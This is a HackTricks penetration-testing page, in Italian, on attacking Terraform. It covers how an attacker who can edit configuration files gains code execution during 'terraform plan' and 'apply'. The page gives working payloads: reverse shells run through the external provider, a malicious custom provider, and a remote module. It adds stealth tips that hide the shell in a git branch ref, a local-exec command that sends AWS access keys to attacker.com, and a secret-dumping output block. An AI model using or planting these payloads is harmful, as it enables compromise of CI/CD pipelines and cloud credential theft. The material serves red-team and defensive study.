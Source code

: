 # Sicurezza di Terraform

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di github.

</details>

## Informazioni di base

[Dalla documentazione: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform è uno strumento di **infrastruttura come codice** che consente di definire sia **risorse cloud che risorse locali** in file di configurazione leggibili dall'uomo che è possibile versionare, riutilizzare e condividere. È quindi possibile utilizzare un flusso di lavoro coerente per fornire e gestire tutta la propria infrastruttura durante il suo ciclo di vita. Terraform può gestire componenti a basso livello come risorse di calcolo, archiviazione e rete, nonché componenti ad alto livello come voci DNS e funzionalità SaaS.

### Come funziona Terraform?

Terraform crea e gestisce risorse su piattaforme cloud e altri servizi tramite le loro interfacce di programmazione delle applicazioni (API). I provider consentono a Terraform di lavorare con praticamente qualsiasi piattaforma o servizio con un'API accessibile.

![](<../.gitbook/assets/image (33).png>)

HashiCorp e la comunità di Terraform hanno già scritto **oltre 1700 provider** per gestire migliaia di diversi tipi di risorse e servizi, e questo numero continua a crescere. È possibile trovare tutti i provider disponibili pubblicamente nel [Terraform Registry](https://registry.terraform.io/), tra cui Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog e molti altri.

Il flusso di lavoro di base di Terraform consiste in tre fasi:

* **Scrittura:** Si definiscono le risorse, che possono essere distribuite su più provider e servizi cloud. Ad esempio, è possibile creare una configurazione per distribuire un'applicazione su macchine virtuali in una rete Virtual Private Cloud (VPC) con gruppi di sicurezza e un bilanciamento del carico.
* **Pianificazione:** Terraform crea un piano di esecuzione che descrive l'infrastruttura che verrà creata, aggiornata o eliminata in base all'infrastruttura esistente e alla configurazione.
* **Applicazione:** Con l'approvazione, Terraform esegue le operazioni proposte nell'ordine corretto, rispettando le dipendenze delle risorse. Ad esempio, se si aggiornano le proprietà di una VPC e si cambia il numero di macchine virtuali in quella VPC, Terraform ricreerà la VPC prima di ridimensionare le macchine virtuali.

![](<../.gitbook/assets/image (81).png>)

## Laboratorio di Terraform

Basta installare Terraform sul tuo computer.

Qui hai una [guida](https://learn.hashicorp.com/tutorials/terraform/install-cli) e qui hai il [modo migliore per scaricare Terraform](https://www.terraform.io/downloads).

## RCE in Terraform

Terraform **non ha una piattaforma che espone una pagina web o un servizio di rete** che possiamo enumerare, quindi, l'unico modo per compromettere Terraform è **essere in grado di aggiungere/modificare i file di configurazione di Terraform**.

Tuttavia, Terraform è un **componente molto sensibile** da compromettere perché avrà **accesso privilegiato** a diverse posizioni per poter funzionare correttamente.

Il modo principale per un attaccante di essere in grado di compromettere il sistema in cui viene eseguito Terraform è quello di **compromettere il repository che memorizza le configurazioni di Terraform**, perché a un certo punto verranno **interpretate**.

In realtà, ci sono soluzioni là fuori che **eseguono automaticamente terraform plan/apply dopo la creazione di una PR**, come ad esempio **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Se sei in grado di compromettere un file di configurazione di Terraform, ci sono diversi modi in cui puoi eseguire RCE quando qualcuno esegue `terraform plan` o `terraform apply`.

### Terraform plan

Terraform plan è il **comando più utilizzato** in Terraform e gli sviluppatori/soluzioni che utilizzano Terraform lo chiamano tutto il tempo, quindi il **modo più semplice per ottenere RCE** è assicurarsi di iniettare un file di configurazione di Terraform che eseguirà comandi arbitrari in un `terraform plan`.

#### Utilizzo di un provider esterno

Terraform offre il provider [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) che fornisce un modo per interfacciarsi tra Terraform e programmi esterni. È possibile utilizzare la sorgente dati `external` per eseguire codice arbitrario durante una `plan`.

Iniettare in un file di configurazione di Terraform qualcosa di simile al seguente eseguirà una shell inversa quando si esegue `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Utilizzo di un provider personalizzato

Un attaccante potrebbe inviare un [provider personalizzato](https://learn.hashicorp.com/tutorials/terraform/provider-setup) al [Terraform Registry](https://registry.terraform.io/) e successivamente aggiungerlo al codice Terraform in un ramo di sviluppo ([esempio da qui](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Il provider viene scaricato nell'`init` e eseguirà il codice dannoso quando viene eseguito il `plan`

Puoi trovare un esempio su [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Utilizzo di un riferimento esterno

Entrambe le opzioni menzionate sono utili ma non molto stealthy (la seconda è più stealthy ma più complessa della prima). Puoi eseguire questo attacco in modo ancora più stealthy, seguendo questi suggerimenti:

* Invece di aggiungere direttamente il reverse shell nel file terraform, puoi **caricare una risorsa esterna** che contiene il reverse shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Puoi trovare il codice di reverse shell su [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Nella risorsa esterna, utilizza la funzionalità **ref** per nascondere il **codice di reverse shell di terraform in un branch** all'interno del repository, qualcosa del genere: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply verrà eseguito per applicare tutte le modifiche, puoi anche sfruttarlo per ottenere RCE iniettando **un file Terraform malevolo con** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Assicurati solo che un payload come i seguenti finisca nel file `main.tf`.
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Segui le **suggerimenti della tecnica precedente** per eseguire questo attacco in modo **più discreto utilizzando riferimenti esterni**.

## Dump delle Credenziali

Puoi ottenere il **dump delle credenziali segrete utilizzate da terraform** eseguendo `terraform apply` aggiungendo al file terraform qualcosa del genere:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Strumenti di Audit

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utilizza l'analisi statica del tuo codice terraform per individuare potenziali errori di configurazione.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan è un analizzatore statico del codice per l'Infrastruttura come Codice.

## Riferimenti

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguimi** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
